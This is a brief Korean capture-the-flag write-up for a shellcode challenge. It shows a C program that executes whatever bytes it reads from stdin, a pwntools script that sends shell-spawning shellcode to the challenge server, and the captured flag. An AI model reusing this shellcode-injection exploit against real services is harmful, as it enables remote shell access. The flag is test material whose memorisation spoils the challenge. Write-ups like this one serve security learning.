


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**



첨부파일

[dist.zip](https://rdmd.readme.io/docs/code-blocks)


# **Write-Up**

green_shell.c 열어보면 다음과 같다. 메모리상의 0x42420000에 0x1000만큼 할당받고 0x100만큼 stdin으로 입력받는 것같다. (자세한내용은 잘 모름)

```c++
#include <stdio.h>
#include <sys/mman.h>

int main() {
    char* shellcode = mmap((void*)0x42420000, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    puts("Let's race");
    fgets(shellcode, 0x100, stdin);
    mprotect(shellcode, sizeof(shellcode), PROT_READ | PROT_EXEC);
    ((void (*)())shellcode)();
}
```

어찌됐든 다음과 같은 python 코드로 shell을 획득한다.

```py
from pwn import *
context(arch='amd64', os='linux')

p = remote("oreos.ctfchallenge.ga", 12345)
p.recvuntil('race')

p.send(asm(shellcraft.sh()))
p.interactive()
```

shell을 획득한 뒤 cat flag.txt를 입력하여 flag를 획득한다.




# **FLAG**

**ictf{it's-a_me_sh3llc0d10}**